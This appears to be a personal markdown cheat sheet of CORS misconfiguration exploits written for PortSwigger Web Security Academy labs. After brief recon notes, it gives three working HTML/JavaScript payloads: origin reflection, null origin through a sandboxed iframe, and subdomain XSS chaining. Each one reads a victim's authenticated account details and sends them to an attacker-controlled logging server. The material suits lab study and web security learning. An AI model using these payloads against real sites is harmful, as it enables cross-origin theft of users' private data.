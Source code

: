 # Cross-origin Resource Sharing (CORS)

## Summary

* [General Recon For CORS Vulnerabilities](#recon)
* [Portswigger Labs Cheat Sheet / Payloads](#cheat-sheet)

## Recon

### Identify CORS Misconfigurations

* Analyze all the application’s requests/responses to see if any explicitly support CORS

* Identify what Origins are allowed to submit CORS requests to the application, submit the following header in the requests:
    * Origin: *some-value*
    
* Identify if any of those requests can be used to send CORS request with credentials:
    * Access-Control-Allow-Credentials: true

* The examples from the labs can help create exploits to take advantage of these misconfigurations

---
---

## Cheat Sheet

### Basic Origin Reflection

* The application is allowing any Origin to submit a cross-origin request and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: attacker.com
```

* With these headers in the response, an attacker can host malicious code in their server, that will submit a request to the vulnerable application and direct the authenticated response back to their server.  Now the attacker needs to trick the victim user into visiting their website, while they’re authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

```html
<html>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+this.responseText;
    };
</script>
</html>
```


### Trusted Null Origin

* The application is only allowing the “null” Origin to submit a cross-origin request and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

* With these headers in the response, an attacker can host malicious code in their server, that will submit a request to the vulnerable application and direct the authenticated response back to their server.  The malicious code will be within an \<iframe\> that will cause the browser to set the Origin header to “null”.  The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.


    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</html>
```

### Subdomain Origin Allowed

* The application is only allowing subdomains to send cross-origin requests and view the authenticated response.

* This is possible because the application is returning the following headers in a response, which contains sensitive information about the logged in user:

```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: subdomain.vulnerable-app.com
```

* The subdomain is allowed to view the authenticated responses from the main application.  When the XSS script, which essentially will be hosted within the subdomain, is executed, the Origin header will include the **subdomain.vulnerable-app.com** value.  This allows the response to contain the authenticated data. The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.

    * *Make sure to set the file extension to .html or no extension also works in Exploit Server labs*

    * Make sure to encode the angle brackets <> in the payload within the *document.location* to prevent breaking the payload.  This payload is the exact same as the [Basic Origin Reflection](#basic-origin-reflection), except the payload is injected in the XSS vulnerable parameter of the Subdomain.

```html
<html>
<script>
    document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4%3cscript%3e var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='%2bthis.responseText; };%3c/script%3e&storeId=1"
</script>
</html>
```
